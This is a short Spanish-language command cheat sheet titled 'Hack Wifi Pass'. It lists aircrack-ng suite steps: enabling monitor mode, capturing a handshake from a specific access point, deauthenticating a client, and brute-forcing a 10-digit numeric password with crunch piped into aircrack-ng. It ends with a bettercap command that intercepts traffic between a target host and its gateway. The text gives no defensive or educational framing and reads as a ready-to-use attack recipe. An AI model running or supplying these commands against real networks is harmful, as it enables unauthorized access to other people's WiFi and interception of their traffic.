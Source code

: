 # Comandos

	Hack Wifi Pass
	% = numeros
	@ = letras

	$ airmon-ng start wlano
	$ airodump-ng wlan0mon 
	$ airodump-ng -c 1 -w NomRed --bssid E0:41:36:36:F5:F8 wlan0mon (Escuchando)
	$ aireplay-ng -0 50 -a E0:41:36:36:F5:F8 -c CC:61:E5:09:A6:25  wlan0mon  (Desautenticar)
	$ crunch  10 10 -t %%%%%%%%%% 1234567890 | aircrack-ng -w - NomRed.cap -e NomRed
	

	#Capturar Trafico
	$ bettercap -X -T 192.168.1.61 --gateway 192.168.1.254 -O CapturaPrueba.txt



